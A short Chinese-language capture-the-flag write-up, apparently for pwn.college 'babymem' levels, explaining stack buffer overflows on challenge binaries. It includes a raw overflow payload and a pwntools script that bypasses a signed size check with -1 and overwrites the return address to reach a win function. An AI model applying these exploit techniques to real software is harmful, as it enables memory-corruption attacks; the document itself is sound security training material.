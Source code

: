 ### 3.1 

3.1 这关没有回显。
反汇编之后，发现我们需要覆盖0x60（覆盖距离rbp的数据区域） + 8 个字节的数据（覆盖rbp数据），然后才是ret返回地址。 也就是一共112个字节的数据。

```python
binary_data = b'\x61'* 0x68 + b'\x82\x14\x40\x00\x00\x00\x00\x00'
```




## level 4

### 4.0 

相比之前的关卡，这一关在输入payloadsize之后，会增加一个校验。如果这个输入大于63字节的话，就会终止。是以有符号整数形式加载的。
```c
  if ( SLODWORD(nbytes[0]) > 63 )
  {
    puts("Provided size is too large!");
    exit(1);
  }
```

但是在后续read函数读取的时候，`v9 = read(0, buf, LODWORD(nbytes[0]));`是以无符号整数的形式，调用的。所以我们可以传递一个负数，这样的话，就可以绕过检测。

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'

p = process('/challenge/babymem_level4.0')

# 准备有效载荷
buffer_size = 88
win_func_address = p64(0x4022cb)  # 替换为实际地址

# 发送整数下溢值绕过大小检查
# p.sendlineafter("Payload size: ", "-1")
p.sendline("-1")

# 构造溢出并覆盖返回地址的有效载荷
payload = b'A' * buffer_size
payload += win_func_address
 
p.sendline(payload)
p.interactive()

```
### 4.1

以后要多用pwn编程，这样很快，不然后面的效率提不上来。
